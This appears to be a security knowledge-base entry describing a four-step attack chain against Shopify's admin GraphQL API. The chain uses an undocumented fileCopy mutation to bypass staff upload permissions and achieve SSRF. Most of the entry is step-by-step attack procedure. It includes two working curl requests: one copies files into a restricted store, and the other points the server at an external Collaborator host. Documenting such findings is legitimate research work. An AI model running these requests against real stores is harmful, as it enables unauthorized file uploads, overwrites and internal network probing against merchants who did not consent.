

---
tags:
  - shopify
  - graphql
  - ssrf
  - access-control
  - file-upload
  - bypass
type: attack_chain
tools:
  - '[[tools/Burp-Suite]]'
tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
commands:
  - '[[commands/shopify-filecopy-mutation-for-file-copy]]'
  - '[[commands/shopify-filecopy-mutation-for-ssrf]]'
platforms:
  - Web
  - Cloud
complexity: medium
procedures:
  - '[[procedures/Create-Controlled-Store-and-Upload-File]]'
  - '[[procedures/Login-to-Target-Store-with-Restricted-Permissions]]'
  - '[[procedures/Copy-File-from-Controlled-Store-to-Target-Using-fileCopy]]'
  - '[[procedures/Exploit-SSRF-via-fileCopy-with-External-URL]]'
step_count: 4
techniques:
  - '[[Exploit Public-Facing Application]]'
description: >-
  Multi-stage attack exploiting an undocumented GraphQL mutation in Shopify's
  admin API to bypass file upload permissions and achieve SSRF via cross-store
  file copying.
skill_level: intermediate
impact_level: high
id: 073c6e07-94ac-4e70-8dcd-3e8359d76548
created_at: '2025-12-14T17:32:48.522Z'
updated_at: '2025-12-14T17:32:48.522Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# Shopify Undocumented fileCopy GraphQL Mutation for Cross-Store File Copy and SSRF

Multi-stage attack chain demonstrating exploitation of Shopify's undocumented 'fileCopy' GraphQL mutation to bypass staff upload permissions and trigger SSRF.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]

### Target Environment

- Shopify admin API (GraphQL endpoint at /admin/internal/web/graphql/core)
- Access to create Shopify stores
- Staff account on target store with limited permissions

### Initial Access Requirements

- Valid Shopify staff credentials for target store (no upload permissions needed)
- Ability to create and control a separate Shopify store
- Network access to Shopify CDN and admin API

## Detailed Attack Procedures

### Step 1: Create Controlled Store and Upload File
procedure: [[procedures/Create-Controlled-Store-and-Upload-File]]

**Objective**: Establish a source store under attacker control and upload a test file to obtain necessary file details for later copying.

**Instructions**: Create a new Shopify store (e.g., storeB.myshopify.com) via Shopify's partner dashboard or trial signup. Upload a file through the admin interface, such as an image (e.g., 1.jpg), and note the file's absoluteKey (e.g., 's/files/1/d/0864/0471/6006/6199/files/1.jpg'), key (e.g., 'files/1.jpg'), and path (e.g., 'https://cdn.shopify.com/s/files/1/0471/6006/6199/files/1.jpg?6').

**Expected Output**: File uploaded successfully with details visible in the store's file section.

**Success Indicators**:
- New store created
- File details (absoluteKey, key, path) extracted

### Step 2: Login to Target Store with Restricted Permissions
procedure: [[procedures/Login-to-Target-Store-with-Restricted-Permissions]]

**Objective**: Gain authenticated access to the target store (storeA) using a staff account lacking upload permissions to simulate restricted access.

**Instructions**: Log in to storeA.myshopify.com using staff credentials (e.g., jack_mccracken). Verify permissions do not include file uploads by attempting a direct upload, which should fail.

**Expected Output**: Successful login to admin dashboard; upload attempt denied.

**Success Indicators**:
- Authenticated session established
- Upload permission confirmed as restricted

### Step 3: Copy File from Controlled Store to Target Using fileCopy
procedure: [[procedures/Copy-File-from-Controlled-Store-to-Target-Using-fileCopy]]

**Objective**: Bypass upload restrictions by copying the file from the controlled store to the target store via the undocumented GraphQL mutation.

**Instructions**: From the authenticated session on storeA, send a POST request to /admin/internal/web/graphql/core with the fileCopy mutation using variables from Step 1. Execute [[commands/shopify-filecopy-mutation-for-file-copy]]:

```bash
curl -X POST 'https://storeA.myshopify.com/admin/internal/web/graphql/core' \
  -H 'Content-Type: application/json' \
  -H 'X-Shopify-Access-Token: YOUR_STAFF_TOKEN' \
  -d '{"query":"mutation fileCopy ($key:String!,$absoluteKey:String!,$path:String!){fileCopy (key:$key,path:$path,absoluteKey:$absoluteKey) {file{path} userErrors {field message}}}","variables":{"absoluteKey":"s/files/1/d/0864/0471/6006/6199/files/1.jpg","key":"files/1.jpg","path":"https://cdn.shopify.com/s/files/1/0471/6006/6199/files/1.jpg?6"}}'
```

**Expected Output**: Response with copied file path in the 'file' object; no userErrors.

**Success Indicators**:
- File appears in storeA's files section
- No permission errors in response

### Step 4: Exploit SSRF via fileCopy with External URL
procedure: [[procedures/Exploit-SSRF-via-fileCopy-with-External-URL]]

**Objective**: Abuse the same mutation for SSRF by setting path to an external attacker-controlled URL, triggering server-side requests.

**Instructions**: Modify the mutation to use image extensions for key and absoluteKey (e.g., '1.jpg') and set path to an external URL (e.g., Burp Collaborator). Execute [[commands/shopify-filecopy-mutation-for-ssrf]]:

```bash
curl -X POST 'https://storeA.myshopify.com/admin/internal/web/graphql/core' \
  -H 'Content-Type: application/json' \
  -H 'X-Shopify-Access-Token: YOUR_STAFF_TOKEN' \
  -d '{"query":"mutation fileCopy ($key:String!,$absoluteKey:String!,$path:String!){fileCopy (key:$key,path:$path,absoluteKey:$absoluteKey) {file{path} userErrors {field message}}}","variables":{"absoluteKey":"1.jpg","key":"1.jpg","path":"http://zdgrdgk8zi7sssw4axdoevuyup0poe.burpcollaborator.net/1.png"}}'
```

**Expected Output**: Server initiates request to external URL; monitor for interactions in Burp Collaborator.

**Success Indicators**:
- DNS/HTTP interaction detected on external endpoint
- Potential internal resource exposure confirmed

## Attack Chain Summary

### Key Achievements

1. Bypassed staff upload permissions via cross-store file copying
2. Achieved unauthorized file upload/overwrite on restricted stores
3. Demonstrated SSRF for potential internal network reconnaissance

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Collection]]

---
*Last updated: 2023-10-01*
